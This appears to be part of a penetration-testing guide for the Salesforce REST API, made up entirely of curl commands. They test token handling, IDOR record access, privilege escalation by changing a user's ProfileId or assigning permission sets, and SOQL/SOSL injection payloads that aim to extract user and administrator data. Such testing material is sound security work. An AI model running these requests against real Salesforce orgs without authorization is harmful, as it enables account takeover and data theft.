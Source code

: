 **Authentication Security Testing**:
```bash
# Test with invalid token
curl -i -H "Authorization: Bearer invalid_token_12345" \
  "https://instance.salesforce.com/services/data/v52.0/sobjects/"

# Test with expired token
curl -i -H "Authorization: Bearer expired_token" \
  "https://instance.salesforce.com/services/data/v52.0/sobjects/"

# Test token reuse across different IPs
curl -i -H "Authorization: Bearer $VALID_TOKEN" \
  -H "X-Forwarded-For: 192.168.1.100" \
  "https://instance.salesforce.com/services/data/v52.0/sobjects/"
```

**Authorization Bypass Testing**:
```bash
# Test IDOR - access records owned by other users
curl -H "Authorization: Bearer $USER_TOKEN" \
  "https://instance.salesforce.com/services/data/v52.0/sobjects/Account/001XX000003DHPt"

# Test privilege escalation via API
curl -X PATCH \
  -H "Authorization: Bearer $USER_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"ProfileId":"00eXX0000000001"}' \
  "https://instance.salesforce.com/services/data/v52.0/sobjects/User/005XX000001b0Qw"

# Test permission set assignment
curl -X POST \
  -H "Authorization: Bearer $USER_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"PermissionSetId":"0PS000000000001","AssigneeId":"005XX000001b0Qw"}' \
  "https://instance.salesforce.com/services/data/v52.0/sobjects/PermissionSetAssignment/"
```

**Injection Attack Testing**:
```bash
# SOQL injection via query parameter
curl -G -H "Authorization: Bearer $TOKEN" \
  --data-urlencode "q=SELECT Id FROM Account WHERE Name = 'test' UNION SELECT Id FROM User--" \
  "https://instance.salesforce.com/services/data/v52.0/query/"

# Advanced data extraction attempt
curl -G -H "Authorization: Bearer $TOKEN" \
  --data-urlencode "q=SELECT Id FROM Account WHERE Name = 'x' OR (SELECT COUNT() FROM User WHERE Profile.Name = 'System Administrator') > 0--" \
  "https://instance.salesforce.com/services/data/v52.0/query/"

# SOSL injection testing
curl -G -H "Authorization: Bearer $TOKEN" \
  --data-urlencode "q=FIND 'test' RETURNING Account(Id), User(Id, Email, Profile.Name)" \
  "https://instance.salesforce.com/services/data/v52.0/search/"
```
